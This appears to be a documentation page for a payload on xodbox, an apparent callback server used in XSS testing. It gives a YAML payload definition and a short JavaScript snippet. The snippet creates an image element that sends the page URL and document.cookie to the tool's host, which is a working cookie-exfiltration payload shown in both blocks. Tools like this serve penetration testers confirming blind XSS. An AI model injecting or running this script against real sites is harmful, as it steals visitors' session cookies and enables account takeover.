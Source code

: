 ```yaml
---
title: Javascript
description: Returns JS that embeds an image back to xodbox
weight: 1
payloads:
  - type: HTTPX
    project_id: 1
    sort_order: 1
    pattern: /js$
    data: '{"headers":{"Content-Type":"text/javascript"},"body":"(function (){\nvar s = document.createElement(\"img\");\ndocument.body.appendChild(s);\n
    s.src=\"//{{ .Host }}/jscb?src=\"+window.location+\"&c=\"+document.cookie;})()"}'
---
```


Simple JS Payload

```javascript
(function (){
    var s = document.createElement("img");
    document.body.appendChild(s);
    s.src="//{{ .Host }}/jscb?src="+window.location+"&c="+document.cookie;
})()

```